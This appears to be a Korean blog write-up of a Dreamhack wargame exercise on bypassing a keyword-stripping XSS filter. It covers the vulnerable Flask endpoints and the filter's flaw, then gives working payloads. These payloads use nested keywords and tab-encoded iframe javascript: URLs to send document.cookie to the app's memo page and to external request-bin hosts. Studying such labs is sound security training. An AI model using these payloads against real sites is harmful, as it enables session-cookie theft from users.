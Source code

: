 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


- [x] xss filtering bypass
- [x] xss filtering bypass advanced

# Web Hacking [함께실습] xss filtering bypass


## 웹 서비스 분석
### 엔드포인트 : /vuln

이용자가 전달한 param 파라미터 값 출력

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param
```

xss_filter : XSS 취약점을 막으려는 시도 / script, on, javascript 필터링

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text
```

### 엔드포인트 : /memo

이용자가 전달한 memo 파라미터 값을 render_template 함수를 통해 기록 / 출력

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

### 엔드포인트 : /flag

1) GET : 이용자에게 URL을 입력받는 페이지 제공
2) POST : param에 값과 쿠키에 flag를 포함하여 check_xss 함수 호출

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

## 취약점 분석 / 익스플로잇

### 취약점 분석 

vuln , memo 엔드포인트는 이용자의 입력값을 페이지에 그대로 출력하며, memo는 render_template 을 통해 memo.html을 출력한다. render_template 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기에, XSS 취약점이 발생하지 않는다. 그러나, vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기에 XSS 취약점이 발생할 수 있다. 

filter_xss 함수를 통해 script, on, javascript 총 세 개의 키워드를 필터링하나, 키워드를 한 번만 제거하기에, 쉽게 우회 가능하다

### 익스플로잇

location.href : 전체 URL을 반환하거나, URL을 업데이트할 수 있는 속성
document.cookie : 해당 패이지에서 사용하는 쿠키를 읽고, 쓰는 속성

```javascript
<scronipt>document.locatioonn.href = "/memo?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/23ㄹ.png">

```javascript
<scronipt>document['locatio'+'n'].href = "http://kyjwjya.request.dreamhack.games/?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/22.png">

# Web Hacking [혼자실습] xss filtering bypass advanced

못 품

java%1110011cript:%1100100ocument.lo%1100011ation.href = "/memo?memo=%1100100ocument.cookie

<iframe src="javascrip%09t:locatio%09n.href=%27https://ukowaty.request.dreamhack.games/memo?memo=%27%2bdocumen%09t.cookie">